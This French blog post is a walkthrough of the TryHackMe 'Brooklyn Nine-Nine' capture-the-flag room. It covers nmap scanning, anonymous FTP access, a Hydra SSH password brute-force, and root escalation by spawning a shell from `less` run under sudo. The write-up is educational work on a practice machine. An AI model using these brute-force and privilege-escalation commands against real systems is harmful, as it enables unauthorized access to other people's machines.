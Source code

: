 ```yaml
---
title: "Write-up : TryHackMe - Brooklyn Nine-Nine"
date: 2025-04-22T09:00:00+02:00 # Met l'heure à 9h du matin, bien avant 23h50
draft: false                     # <--- TRÈS IMPORTANT : 'false' pour publier
author: "AntoineWHR"             # <--- Ton nom/pseudo (optionnel, si défini globalement)
tags: ["TryHackMe", "CTF", "Linux", "FTP", "SSH", "Sudo", "Less"] # <--- Des tags pertinents
categories: ["WriteUps"]         # <--- Une catégorie (ex: WriteUps)
comment:
  enable: true
description: "Solution pas à pas du challenge TryHackMe Brooklyn Nine-Nine, de la reconnaissance à l'accès root." # <--- Description courte
---
```


<!--more-->  <--- AJOUTE ÇA ICI POUR COUPER LE RÉSUMÉ

# **Write-up : TryHackMe - Brooklyn Nine-Nine**

## **Informations sur la Room**

*   **Nom :** Brooklyn Nine-Nine
*   **Plateforme :** TryHackMe
*   **Lien :** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine) 
*   **Difficulté Annoncée :** Facile (Easy)
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.

## **Introduction**

Ce challenge nous plonge dans l'univers de la série Brooklyn 99. Notre mission est de compromettre le serveur utilisé par l'équipe et de récupérer les flags utilisateur et root, en exploitant probablement quelques faiblesses laissées par nos personnages préférés.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Comme toujours, commençons par un scan Nmap pour identifier les services exposés sur la machine cible.

```bash
# -sC: Utilise les scripts Nmap par défaut
# -sV: Tente de déterminer la version des services
```

![Résultats Nmap](/static/images/nmap1.png)

Le scan révèle trois ports ouverts principaux :

*   **Port 21 (FTP) :** vsftpd - Permet la connexion anonyme (`Anonymous FTP login allowed`).
*   **Port 22 (SSH) :** OpenSSH 
*   **Port 80 (HTTP) :** Apache 

### **2. Exploration FTP**

La possibilité de connexion anonyme sur le FTP est une piste intéressante. Connectons-nous :

```bash
ftp -p <IP_SERVEUR> <PORT>
# Nom : Anonymous
# Mot de passe : 
```

Une fois connecté, on liste les fichiers et on trouve la note : `note_to_jake.txt`. Téléchargeons-la (`get note_to_jake.txt`) et examinons son contenu (`cat note_to_jake.txt`).

![Note FTP](/static/images/ftp2.png)

La note mentionne que Jake a un mot de passe très faible. (ça lui ressemble bien) 
C'est une information cruciale pour la suite !

### **3. Exploration Web (HTTP)**

Avant de tenter le brute-force, jetons un œil au serveur web sur le port 80. La page d'accueil par défaut d'Apache ne révèle rien d'immédiat. Utilisons `feroxbuster` (ou `gobuster`/`dirb`) pour chercher des répertoires ou fichiers cachés.

```bash
# -w : Spécifie la wordlist
# -u : L'URL cible
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP_SERVEUR>/
```

Malgré l'énumération web, aucun répertoire ou fichier intéressant n'a été découvert lors de cette étape.

## **Phase 2 : Exploitation - Accès Initial (User Flag)**

### **Brute-force SSH avec Hydra**

Forts de l'indice trouvé dans la note FTP ("mot de passe très simple" pour l'utilisateur "jake"), nous allons tenter une attaque par brute-force sur le service SSH (port 22) en utilisant Hydra. Nous utiliserons `rockyou.txt`, une wordlist très commune, en espérant y trouver le mot de passe faible.

```bash
# -l jake : Spécifie le nom d'utilisateur cible
# -P /usr/share/wordlists/rockyou.txt : Spécifie le fichier de mots de passe
# ssh://<IP_SERVEUR>/ : Spécifie le service et l'hôte cible
# -f : Arrête Hydra dès qu'un mot de passe valide est trouvé
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP_SERVEUR>/ -f 
```

![Résultat Hydra](/static/images/hydra3.png)

Succès ! Hydra trouve rapidement le mot de passe : `987654321`.

### **Connexion SSH et Flag Utilisateur**

Connectons-nous maintenant en SSH avec les identifiants trouvés :

```bash
ssh jake@<IP_SERVEUR>
# Entrer le mot de passe : 987654321
```

Une fois connecté, nous cherchons le flag utilisateur (`user.txt`). Après un peu d'exploration (ou en suivant les conventions habituelles), on le trouve dans le répertoire `/home/holt`. Clin d'œil amusant à la série !

```bash
ls /home/holt/
cat /home/holt/user.txt
```

![Flag User](/static/images/ssh4.png)


**Flag Utilisateur Obtenu !**

---

## **Phase 3 : Élévation de Privilèges (Root Flag)**

### **Vérification des Privilèges Sudo**

Maintenant que nous avons un accès en tant que `jake`, cherchons comment devenir `root`. Une des premières commandes à vérifier est `sudo -l`, qui liste les commandes que l'utilisateur actuel peut exécuter avec `sudo`.

```bash
sudo -l
```


La sortie indique que l'utilisateur `jake` peut exécuter la commande `/usr/bin/less` en tant que `root` sans mot de passe (`NOPASSWD`).

```
User jake may run the following commands on :
    (ALL : ALL) NOPASSWD: /usr/bin/less
```

### **Exploitation via `less` (GTFOBins)**

Certains binaires Linux, même ceux qui semblent inoffensifs comme `less` (un paginateur de texte), peuvent être détournés pour obtenir un shell s'ils sont exécutés avec des privilèges élevés. Le site [GTFOBins](https://gtfobins.github.io/) est une ressource fantastique pour trouver de telles techniques.

En cherchant `less` sur GTFOBins, nous trouvons une section "Sudo".


La technique est simple :
1.  Exécuter `less` via `sudo` sur n'importe quel fichier (par exemple `/etc/profile`).
2.  Une fois dans l'interface de `less`, taper `!/bin/sh` (ou `!/bin/bash`). Le `!` permet d'exécuter une commande shell depuis `less`.

Appliquons cela :

```bash
sudo less /etc/profile
```

Une fois que `less` affiche le contenu du fichier, tapez :

```
!/bin/sh
```

Appuyez sur Entrée.

### **Accès Root et Flag Root**

Nous sommes maintenant `root`. Il ne reste plus qu'à récupérer le flag final, généralement situé dans `/root/root.txt`.

```bash
# cd /root
# ls
root.txt
# cat root.txt
```

![GTFOBins - less](/static/images/root5.png) 

**Flag Root Obtenu ! Challenge Terminé !**

## **Conclusion**

Ce challenge "Brooklyn Nine-Nine" était une excellente introduction aux concepts de base du CTF :

1.  **Énumération :** Scan de ports (Nmap), découverte de services (FTP anonyme, SSH, HTTP), énumération web (feroxbuster).
2.  **Exploitation :** Utilisation d'indices (note FTP) pour cibler une attaque (brute-force SSH avec Hydra).
3.  **Élévation de Privilèges :** Vérification des permissions `sudo` (`sudo -l`) et exploitation d'une mauvaise configuration via un binaire autorisé (exploitation de `less` via GTFOBins).

C'était une room amusante et bien thématisée, parfaite pour les débutants.

PS : Jake change de mdp stp
